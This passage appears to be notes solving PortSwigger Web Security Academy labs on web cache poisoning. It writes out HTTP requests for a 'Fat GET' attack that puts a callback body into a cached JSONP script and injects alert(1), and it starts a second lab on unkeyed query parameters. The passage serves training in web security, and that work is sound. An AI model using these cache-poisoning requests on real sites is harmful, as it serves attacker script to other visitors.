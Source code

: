 Navigate to Home Page and notice in HTTP History

```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
```

Let's try Fat GET

```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: my.web-security-academy.net
...

callback=RunAlert
```

Followed by the Original GET Request with no body.
Notice that altered request cached the original.

Response:
```js
...
RunAlert({"country":"United Kingdom"});
```

Wait for cache to expire then send:
```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: my.web-security-academy.net
...

callback=alert(1)
```

Optionally use `Origin: cb.com`  as a cache buster.

## Web cache poisoning via an unkeyed query parameter

![Awesome Badges](https://img.shields.io/badge/level-practitioner-blue)

This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. 

A user regularly visits this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes `alert(1)` in the victim's browser.

#### Solution

##### Web Cache Poisoning
Send these two requests one after another:

```
GET / HTTP/2
GET /?test=123 HTTP/2
```
